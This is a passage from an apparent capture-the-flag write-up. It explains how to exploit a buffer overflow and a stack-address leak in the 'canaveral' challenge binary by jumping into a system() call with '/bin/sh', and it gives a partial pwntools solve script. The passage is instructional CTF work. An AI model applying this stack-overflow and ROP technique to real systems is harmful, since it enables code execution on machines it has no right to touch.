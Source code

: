     ```
       ; ... checks for RDI and RSI parameters ...
       0x401218:    mov    -0x10(%rbp),%rax
       0x40121c:    mov    %rax,%rdi
       0x401224:    call   system@plt
    
    ```
    
    A closer look reveals that the latter part of the `win` function (starting at `0x401218`) simply takes a value from the address `[rbp - 0x10]`, loads it into `rdi`, and calls `system()`. This code snippet has no checks whatsoever, making it our prime target.
    
3. **The Information Leak Vulnerability:**
The program prints the line `Successful launch! Here's your prize: %p` along with an address. This is the address of the buffer on the stack. This leak allows us to know the exact memory location of our payload.
4. **Developing a Two-Stage Exploit Strategy:**
    - **Stage 1 (Reconnaissance):** Send an initial payload to trigger the buffer overflow. This payload overwrites the return address with the address of the `vuln` function itself, causing the program to execute `vuln` a second time. The sole purpose of this stage is to make the program print the buffer's stack address, which we will capture.
    - **Stage 2 (Attack):** Using the leaked stack address, we construct a second, precisely crafted payload:
        - Overwrite the saved `RBP` with a carefully calculated address (`leaked_stack_addr + offset`).
        - Overwrite the return address to jump into the middle of the `win` function (at `0x401218`).
        - Place the address of the `"/bin/sh"` string at the correct location on the stack so that when the `mov -0x10(%rbp),%rax` instruction executes, it will pick up this exact address.
        - Add a simple `ret` gadget to the ROP chain to fix the stack alignment issue, ensuring that the call to `system()` does not crash.

---

## Exploit Script

The Python script below automates this two-stage exploit strategy.

```python
# solve.py
from pwn import *

# Set up the environment
elf = ELF("./canaveral")
context.binary = elf
context.terminal = ["tmux", "split-w", "-h"]

# Connect to the remote server
p = remote("chal.sunshinectf.games", 25603)
# p = process("./canaveral") # For local testing

# --- STAGE 1: Leak the stack address ---

# Get the address of the vuln function to loop back
vuln_addr = elf.symbols["vuln"]

# Payload 1: Overwrite the return address with vuln_addr
# 0x40 (buffer) + 8 (saved RBP) = 72 bytes offset
payload1 = b"A" * 72 + p64(vuln_addr)
p.sendline(payload1)

# Receive the output and parse the leaked stack address
p.recvuntil(b"Here's your prize: ")
leaked_buf_addr = int(p.recvline().strip(), 16)
log.info(f"Leaked stack buffer address: {hex(leaked_buf_addr)}")

# --- STAGE 2: The Attack ---

```